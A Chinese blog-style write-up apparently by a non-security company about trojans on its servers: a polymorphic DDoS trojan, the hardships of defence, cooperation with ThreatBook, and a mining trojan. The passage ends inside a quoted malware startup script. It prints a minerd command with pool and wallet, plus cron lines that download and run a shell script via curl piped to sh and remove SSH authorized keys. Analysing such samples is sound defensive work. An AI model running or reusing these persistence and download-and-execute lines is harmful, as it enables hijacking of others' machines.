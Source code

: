 #### 源码分析

**多态（Polymorphic）** 是指恶意软件在自我繁殖期间不断改变（“morphs”）其自身文件特征码（大小、hash等等）的特点，衍生后的恶意软件可能跟以前副本不一致。因此，这种能够自我变种的恶意软件很难使用基于签名扫描的安全软件进行识别和检测。

![样本](http://o8m8ngokc.bkt.clouddn.com/trojan-demo-1.png)

![样本](http://o8m8ngokc.bkt.clouddn.com/trojan-demo-1-2.png)

木马具有非常多功能：增加服务、删除服务、执行程序、隐藏进程、隐藏文件、下载文件、获取系统信息、发起DDOS攻击等行为。
主程序的作用是根据感染目标机器的系统开发版本传输并且选择C&C服务器。
C2服务器归属地为美国,加利福尼亚州,洛杉矶。

其实就算是拿到了样本，逆向难度也很大。何况木马关键数据全部加密，传输过程也加密，哪哪都是加密。笔者曾经试图自行破解，找来了《IDA Pro指南》之类的秘籍，无奈功力不够，只能草草收场。

#### 防御之难

首先，防御一方是守城战。资源有限，防线漫长，安全投入大见效慢。做与不做效果无法评估，做了不代表没有漏洞，不做也不见得出什么大事。

其次，消极安全观主导制度体系建设。每个大单位都有安全责任制，甚至很多地方都上升到安全KPI一票否决的高度。实际情况呢？ 管理上的松散、各自为战，为了安全KPI，消极看待业务需求，逼得业务方剑走偏锋，反而增加了漏洞风险。

最后，攻防双方技术上完全不对等。
攻击者已经进化到大兵团作战模式，兵强马壮，甚至还发展出CaaS（Crime as a Service）这类梦幻般的服务理念。例如僵尸网络不仅可以调度全部资源，提供大规模攻击服务，还能提供间歇性的慢速攻击服务。按需收费，童叟无欺。
防御者基本上还是的大刀长矛。这战没发打。

#### 合作
如果凭借笔者个人的天资和努力，甚至凭借本公司的力量，几乎可以肯定，我们到现在还不一定能知道这款的木马的名字，更不用说管窥它的细节。因为我们根本就不是安全公司，几百号人里面连一个安全专家都没有。这种情况在其它企业应该也具有普遍性。

在这次的案例中，很快就完成了从样本捕获、攻击分析到安全加固的一系列动作，全程业务不受太大影响，甲方用户基本无感知。关键得益于和第三方的充分合作。

微步在线（ThreatBook）——国内首家威胁情报公司。它们的思路很特别，没有去走传统安全公司的老路，而是专注于威胁情报的样本分析、收集和处理，实现大范围长跨度的数据积累，促进情报交流和信息共享，通过合作创造价值。这个思路对于打破行业、竞争企业的壁垒，意义非凡。

最近，它们刚刚拿到A轮投资，资本市场就是敏锐。


##（2）今天你被挖矿了吗？
字数835 阅读115 评论2 喜欢1
书接上文，针对编号101样本的分析，我们已经知道，黑色产业界通过植入木马，控制了大量主机资源，只要有人花钱，就可以按需要调度足够的资源发动DDos攻击，据说还可以按效果付费。

此外，还有一种常见模式则是“挖矿木马”，首先还是来看样本：
~~~
root      3744 29921  0 19:53 pts/0    00:00:00 grep min
root     31333     1 99 19:48 ?        02:46:38
/opt/minerd -B -a cryptonight
-o stratum+tcp://xmr.crypto-pool.fr:8080 -u
48vKMSzWMF8TCVvMJ6jV1BfKZJFwNXRntazXquc7fvq9DW23GKk
cvQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x
~~~

uptime看到的负载值非常高。

启动脚本
~~~

echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
~~~